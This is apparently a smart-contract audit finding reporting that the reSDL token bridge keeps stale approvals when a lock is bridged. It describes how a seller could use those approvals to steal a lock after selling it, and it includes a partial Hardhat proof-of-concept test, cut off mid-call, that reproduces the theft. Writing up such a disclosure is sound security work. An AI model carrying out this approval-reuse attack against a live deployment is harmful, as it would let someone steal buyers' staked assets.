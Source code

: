 The approval that the user had before bridging the reSDL lock will remain there and he can get benefited from it by stealing the NFT.
Consider the following situation:
A user knows that there is a victim that is willing to pay the underlying value for a reSDL lock ownership transfer. What the malicious user can do is set approval to move his lockId in all supported chains to an alt address that he owns. Then, he trades the underlying value for the reSDL ownership and the lock is transfered to the victim/buyer. If the buyer keeps the lock in this chain nothing happens, but if he bridges any of the other supported chains, the malicious user can use the approval of his alt account to steal the reSDL lock.

#### Proof of Concept
It is written inside `resdl-token-bridge.test.ts` because it uses its setup
```
  it('PoC steal reSDL', async () => {
    let lockId = 2

    let thief = accounts[0]
    let victim = accounts[1]

    let thiefAccount2 = accounts[2]

    let ts = (await ethers.provider.getBlock(await ethers.provider.getBlockNumber())).timestamp

    // Thief approves an alt account that he controls to move his lock in the original chain
    await sdlPool.approve(thiefAccount2, lockId)

    assert.equal(await sdlPool.getApproved(2), thiefAccount2);

    // Thief bridges the lock to an other chain but the approval is not deleted
    await bridge.transferRESDL(77, victim, lockId, true, toEther(10), { value: toEther(10) })
    let lastRequestMsg = await onRamp.getLastRequestMessage()
    assert.deepEqual(
      ethers.utils.defaultAbiCoder
        .decode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint64', 'uint64', 'uint64'],
          lastRequestMsg[1]
        )
        .map((d, i) => {
          if (i == 0) return d
          if (i > 1 && i < 4) return fromEther(d)
          return d.toNumber()
        }),
      [victim, lockId, 1000, 1000, ts, 365 * 86400, 0]
    )
    assert.deepEqual(
      lastRequestMsg[2].map((d) => [d.token, fromEther(d.amount)]),
      [[sdlToken.address, 1000]]
    )
    assert.equal(lastRequestMsg[3], wrappedNative.address)
    assert.equal(lastRequestMsg[4], '0x11')
    await expect(sdlPool.ownerOf(lockId)).to.be.revertedWith('InvalidLockId()')

    // The user that received the lock from bridging on the other chain decides to bridge the lock id
    // back to the original chain
    await offRamp
      .connect(signers[6])
      .executeSingleMessage(
        ethers.utils.formatBytes32String('messageId'),
        77,
        ethers.utils.defaultAbiCoder.encode(
          ['address', 'uint256', 'uint256', 'uint256', 'uint64', 'uint64', 'uint64'],
          [victim, lockId, 1000, 1000, ts, 365 * 86400, 0]
        ),
```